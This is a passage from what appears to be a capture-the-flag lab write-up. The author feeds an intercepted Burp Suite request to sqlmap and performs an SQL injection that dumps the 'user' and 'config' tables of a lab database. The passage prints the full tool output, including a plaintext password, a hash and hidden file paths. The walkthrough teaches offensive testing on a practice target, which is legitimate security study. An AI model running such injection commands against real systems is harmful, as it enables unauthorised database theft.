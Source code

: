 
I export the intercepted request from Burp Suite to a .txt file, which I then pass to **sqlmap** to perform an **SQL Injection** attack and retrieve the contents of selected tables from the vulnerable database.

```console
┌──(kali㉿kali)-[~/Desktop/expose]
└─$ sqlmap -r request.txt  --dump 
```

```console
---
[09:25:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[09:25:05] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[09:25:05] [INFO] fetching current database
[09:25:05] [INFO] retrieved: 'expose'
[09:25:05] [INFO] fetching tables for database: 'expose'
[09:25:06] [INFO] retrieved: 'config'
[09:25:06] [INFO] retrieved: 'user'
[09:25:06] [INFO] fetching columns for table 'user' in database 'expose'
[09:25:06] [INFO] retrieved: 'created'
[09:25:06] [INFO] retrieved: 'timestamp'
[09:25:06] [INFO] retrieved: 'email'
[09:25:06] [INFO] retrieved: 'varchar(512)'
[09:25:06] [INFO] retrieved: 'id'
[09:25:06] [INFO] retrieved: 'int'
[09:25:06] [INFO] retrieved: 'password'
[09:25:07] [INFO] retrieved: 'varchar(512)'
[09:25:07] [INFO] fetching entries for table 'user' in database 'expose'
[09:25:07] [INFO] retrieved: '2023-02-21 09:05:46'
[09:25:07] [INFO] retrieved: 'hacker@root.thm'
[09:25:07] [INFO] retrieved: '1'
[09:25:07] [INFO] retrieved: 'VeryDifficultPassword!!#@#@!#!@#1231'
Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
+----+-----------------+---------------------+--------------------------------------+

[09:25:07] [INFO] table 'expose.`user`' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.208.188/dump/expose/user.csv'                                                                                   
[09:25:07] [INFO] fetching columns for table 'config' in database 'expose'
[09:25:07] [INFO] retrieved: 'id'
[09:25:07] [INFO] retrieved: 'int'
[09:25:07] [INFO] retrieved: 'password'
[09:25:08] [INFO] retrieved: 'text'
[09:25:08] [INFO] retrieved: 'url'
[09:25:08] [INFO] retrieved: 'text'
[09:25:08] [INFO] fetching entries for table 'config' in database 'expose'
[09:25:08] [INFO] retrieved: '/file1010111/index.php'
[09:25:08] [INFO] retrieved: '1'
[09:25:08] [INFO] retrieved: '69c66901194a6486176e81f5945b8929'
[09:25:08] [INFO] retrieved: '/upload-cv00101011/index.php'
[09:25:09] [INFO] retrieved: '3'
[09:25:09] [INFO] retrieved: '// ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z'
[09:25:09] [INFO] recognized possible password hashes in column 'password'
```